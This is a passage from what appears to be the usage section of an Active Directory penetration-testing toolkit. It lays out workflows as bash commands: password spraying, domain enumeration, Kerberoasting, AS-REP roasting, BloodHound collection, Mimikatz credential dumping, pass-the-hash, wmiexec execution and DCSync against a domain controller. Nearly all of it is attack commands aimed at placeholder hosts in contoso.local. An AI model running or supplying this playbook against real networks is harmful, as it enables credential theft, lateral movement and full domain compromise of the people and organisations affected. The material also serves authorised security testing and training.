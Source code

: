 3. Perform password spraying:
   ```bash
   ./adpentest-toolkit.py spray -t 192.168.1.100
   ```

4. With valid credentials, start domain enumeration:
   ```bash
   ./netexec-enumerator.py set username found_user
   ./netexec-enumerator.py set password found_password
   ./netexec-enumerator.py enum users
   ```

### Privilege Escalation Workflow

1. Look for Kerberoastable accounts:
   ```bash
   ./kerberoast.py -t 192.168.1.100
   ```

2. Try AS-REP Roasting:
   ```bash
   ./impacket-toolkit.py asreproast -t 192.168.1.100
   ```

3. Collect AD data with BloodHound:
   ```bash
   ./adpentest-toolkit.py bloodhound -t 192.168.1.100
   ```

4. If you have admin access to a workstation, dump credentials:
   ```bash
   ./mimikatz-wrapper.py remote -t 192.168.1.105 -d contoso.local -u administrator -p Password123!
   ```

### Lateral Movement Workflow

1. Use extracted hashes for Pass-the-Hash:
   ```bash
   ./mimikatz-wrapper.py pth -t 192.168.1.110 -d contoso.local -u administrator -H hash -c "whoami"
   ```

2. Use Impacket tools for execution:
   ```bash
   ./impacket-toolkit.py wmiexec -t 192.168.1.110
   ```

3. Extract more credentials from compromised hosts:
   ```bash
   ./netexec-enumerator.py set target 192.168.1.110
   ./netexec-enumerator.py enum creds
   ```

### Domain Compromise Workflow

1. Using your privileged access, run DCSync:
   ```bash
   ./mimikatz-wrapper.py local dcsync -d contoso.local -c dc01.contoso.local
   ```
